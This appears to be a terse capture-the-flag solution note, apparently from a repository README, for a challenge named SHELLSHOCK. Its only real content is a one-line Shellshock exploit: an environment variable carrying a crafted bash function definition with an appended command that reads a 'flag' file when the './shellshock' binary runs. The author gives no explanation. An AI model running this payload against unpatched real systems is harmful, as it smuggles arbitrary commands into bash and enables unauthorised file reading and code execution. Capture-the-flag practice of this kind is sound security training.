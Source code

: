 # SHELLSHOCK
This is an old exploit ->
```sh
x='() { :;}; /bin/cat flag' ./shellshock
```
sorry I don't want to explain.
Good Night!